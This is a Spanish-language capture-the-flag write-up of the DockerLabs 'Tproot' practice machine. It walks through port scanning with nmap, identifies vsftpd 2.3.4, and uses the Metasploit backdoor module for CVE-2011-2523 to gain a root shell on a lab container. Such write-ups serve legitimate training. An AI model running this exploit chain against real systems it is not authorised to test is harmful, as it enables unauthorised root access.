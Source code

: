 ```yaml
---
title: Tproot
description: DockerLabs es una plataforma gratuita diseñada para practicar hacking ético al alcance de todo el mundo utilizando Docker. DockerLabs ofrece un entorno seguro y accesible para desplegar laboratorios vulnerables de la forma más eficiente y sencilla posible.
date: 2025-02-14
toc: true
pin: false
image:
 path: /assets/img/dockerlabs-writeup-tproot/tproot_logo.png
categories:
  - Docker Labs
tags:
  - linux
  - dockerlabs
  - ftp
  - http
  - tcp
  - cve
  - metasploit
  - information gathering
  - cve exploitation

---
```

## Information Gathering

El análisis inicial comienza con el comando ping para confirmar la accesibilidad de la máquina objetivo en la red.

```terminal
/home/kali/Documents/dockerlabs/tproot:-$ ping -c 1 127.17.0.2 
PING 127.17.0.2 (127.17.0.2) 56(84) bytes of data.
64 bytes from 127.17.0.2: icmp_seq=1 ttl=64 time=0.057 ms

--- 127.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.057/0.057/0.057/0.000 ms
```

Realizo un escaneo agresivo de puertos con nmap, lo que me permite identificar rápidamente todos los puertos abiertos.

```terminal
/home/kali/Documents/dockerlabs/tproot:-$ sudo nmap -p- --open -sS --min-rate 5000 -vvv 127.17.0.2 -n -Pn -oG nmap1
Host: 127.17.0.2 ()     Status: Up
Host: 127.17.0.2 ()     Ports: 21/open/tcp//ftp///, 80/open/tcp//http///        Ignored State: closed (65533)
```

Profundizo en los puertos detectados, recopilando información detallada sobre los servicios y versiones en ejecución.

```terminal
/home/kali/Documents/dockerlabs/tproot:-$ sudo nmap -sCV -p21,80 -vvv 127.17.0.2 -oN nmap2
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
|_ftp-anon: got code 500 "OOPS: cannot change directory:/var/ftp".
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.58 (Ubuntu)
Service Info: OS: Unix
```
```terminal
/home/kali/Documents/dockerlabs/tproot:-$ whatweb 127.17.0.2
http://127.17.0.2 [200 OK] Apache[2.4.58], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.58 (Ubuntu)], IP[127.17.0.2], Title[Apache2 Ubuntu Default Page: It works]
```

El sitio web muestra la plantilla predeterminada de Apache sin información relevante.

![](assets/img/dockerlabs-writeup-tproot/tproot1.png)

Al verificar la versión de FTP, identifico una variante vulnerable y ampliamente conocida.

```terminal
/home/kali/Documents/dockerlabs/tproot:-$ searchsploit vsftpd 2.3.4
```

![](assets/img/dockerlabs-writeup-tproot/tproot2.png)

> La vulnerabilidad [CVE-2011-2523](https://nvd.nist.gov/vuln/detail/CVE-2011-2523) ya fue abordada en la máquina [Firsthacking](https://litio7.github.io/posts/dockerlabs-writeup-firsthacking/) utilizando el exploit: '/unix/remote/49757.py'.
{: .prompt-tip }

---
## CVE Exploitation

En esta ocasión, emplearé Metasploit para explotar la vulnerabilidad CVE-2011-2523.

```terminal
/home/kali/Documents/dockerlabs/tproot:-$ sudo msfconsole

msf6 > search vsftpd 2.3.4
```

![](assets/img/dockerlabs-writeup-tproot/tproot3.png)

* Selecciono el módulo de explotación correspondiente.
* Configuró la dirección del objetivo 
* Y ejecutó el exploit.

```terminal
msf6 > use 0
[*] No payload configured, defaulting to cmd/unix/interact

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 127.17.0.2
RHOSTS => 127.17.0.2

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > exploit

id
uid=0(root) gid=0(root) groups=0(root)

cat /root/root.txt
```